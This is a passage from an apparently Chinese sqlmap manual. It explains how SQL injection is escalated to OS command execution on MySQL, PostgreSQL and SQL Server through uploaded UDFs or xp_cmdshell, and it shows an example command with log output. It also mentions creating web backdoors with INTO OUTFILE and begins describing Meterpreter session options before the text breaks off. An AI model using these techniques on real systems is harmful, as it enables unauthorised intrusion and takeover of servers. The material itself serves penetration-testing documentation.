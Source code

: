 ### 运行任意操作系统命令

参数：--os-cmd,--os-shell

当数据库为 MySQL，PostgreSQL 或 Microsoft SQL Server，并且当前用户有权限使用特定的函数。

在 MySQL、PostgreSQL，sqlmap 上传一个二进制库，包含用户自定义的函数，sys_exec()和 sys_eval()。

那么他创建的这两个函数可以执行系统命令。在 Microsoft SQL Server，sqlmap 将会使用 xp_cmdshell 存储过程，如果被禁（在 Microsoft SQL Server 2005 及以上版本默认禁制），sqlmap 会重新启用它，如果不存在，会自动创建。

列举一个 PostgreSQL 的例子：

```
$ python sqlmap.py -u "http://192.168.136.131/sqlmap/pgsql/get_int.php?id=1" \
--os-cmd id -v 1

[...]
web application technology: PHP 5.2.6, Apache 2.2.9
back-end DBMS: PostgreSQL
[hh:mm:12] [INFO] fingerprinting the back-end DBMS operating system
[hh:mm:12] [INFO] the back-end DBMS operating system is Linux
[hh:mm:12] [INFO] testing if current user is DBA
[hh:mm:12] [INFO] detecting back-end DBMS version from its banner
[hh:mm:12] [INFO] checking if UDF 'sys_eval' already exist
[hh:mm:12] [INFO] checking if UDF 'sys_exec' already exist
[hh:mm:12] [INFO] creating UDF 'sys_eval' from the binary UDF file
[hh:mm:12] [INFO] creating UDF 'sys_exec' from the binary UDF file
do you want to retrieve the command standard output? [Y/n/a] y
command standard output:    'uid=104(postgres) gid=106(postgres) groups=106(postgres)'

[hh:mm:19] [INFO] cleaning up the database management system
do you want to remove UDF 'sys_eval'? [Y/n] y
do you want to remove UDF 'sys_exec'? [Y/n] y
[hh:mm:23] [INFO] database management system cleanup finished
[hh:mm:23] [WARNING] remember that UDF shared object files saved on the file system can 
only be deleted manually 
```

用--os-shell 参数也可以模拟一个真实的 shell，可以输入你想执行的命令。

当不能执行多语句的时候（比如 php 或者 asp 的后端数据库为 MySQL 时），仍然可能使用 INTO OUTFILE 写进可写目录，来创建一个 web 后门。支持的语言：

```
1、ASP
2、ASP.NET
3、JSP
4、PHP 
```

### Meterpreter 配合使用

参数：--os-pwn,--os-smbrelay,--os-bof,--priv-esc,--msf-path,--tmp-path

当数据库为 MySQL，PostgreSQL 或 Microsoft SQL Server，并且当前用户有权限使用特定的函数，可以在数据库与攻击者直接建立 TCP 连接，这个连接可以是一个交互式命令行的 Meterpreter 会话，sqlmap 根据 Metasploit 生成 shellcode，并有四种方式执行它：
